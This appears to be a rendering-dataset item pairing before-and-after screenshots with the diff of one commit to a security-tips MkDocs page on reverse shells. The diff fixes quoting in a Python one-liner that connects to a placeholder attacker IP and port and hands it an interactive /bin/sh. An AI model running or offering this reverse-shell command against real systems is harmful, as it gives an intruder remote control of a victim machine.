

Before and after one commit to vincd/security-tips, an MkDocs documentation site: the page built from docs/reverse-shell.md, in a window 1280 px wide and 900 px high, scrolled down 778 px. Built offline with MkDocs 1.6.1, drawn with Linux system fonts in a browser that asks for light colours.

````diff
--- a/docs/reverse-shell.md
+++ b/docs/reverse-shell.md
@@ -32,7 +32,7 @@ reinitialize the terminal with `reset`.
 
 ### Python
 ```bash
-python -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\\"{IP}\\",{Port}));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call([\\"/bin/sh\\",\\"-i\\"]);\'
+python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("{IP}",{PORT}));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
 ```
 
 ### Bash
````
